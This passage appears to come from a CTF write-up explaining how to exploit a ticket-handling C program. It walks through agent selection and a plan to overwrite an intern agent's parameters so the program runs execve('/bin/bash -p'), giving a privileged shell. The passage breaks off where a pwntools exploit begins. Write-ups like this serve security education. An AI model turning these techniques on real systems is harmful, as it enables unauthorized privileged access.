 But, how the agents are selected in {{< hl-text orange >}}find_agent{{< /hl-text >}} ? Here is the code responsible for that, first it compares the service of the agent and then check that the ticket count of the agent is lower than MAX_AGENT_TICKET (which is 4 here). 

{{< codeblock lang="c"  >}}
agent = founder;
    while (agent != NULL && found_agent == NULL) {
        if (strcmp(agent->service, service) == 0 && agent->ticket_count < MAX_AGENT_TICKET) {
            found_agent = agent;
        } else {
            agent = agent->successor;
        }
    }
{{< /codeblock >}}

So if we just craft the intern with service {{< hl-text orange >}}ADM{{< /hl-text >}} it won't work because Moss will be selected since it takes the agent list from the beginning to the end (Intern is the last one). We need to make Moss busy. The ticket count of Moss need to be bigger than MAX_AGENT_TICKET so he can't process other tickets, this will make find_agent return the intern. 

Before getting access to execve in run_task, some conditions are needed. The agent has to be an admin, the agent can't be Moss and the ticket count should be greater than 1:

{{< codeblock lang="c"  >}}
[...]
if (strcmp(agent->service, "ADM") == 0) {
    if (strcmp(agent->name, "Moss") == 0 || agent->ticket_count < 1) {  
        // don't accept commands if it's its first ticket!
[...]
{{< /codeblock >}}


So the idea of the exploit is :

- Create fake ticket for Moss to make him busy
- Create fake ticket for the intern in order to create him
- Process tickets
- Create special ticket to overwrite intern's params
- Create the shell ticket
- Process the tickets and enjoy your shell ! 

After overwriting the intern's params we will end up executing this command :

{{< codeblock lang="c" >}}
char *argv[] = {"/bin/bash", "-p", NULL};
            execve("/bin/bash", argv, NULL);
{{< /codeblock >}}

{{< image classes="clear center fig-100" src="/images/PwnRunSee/params.png" thumbnail="/images/PwnRunSee/params.png" >}}

# Exploit

{{< codeblock lang="python"  >}}
from pwn import *
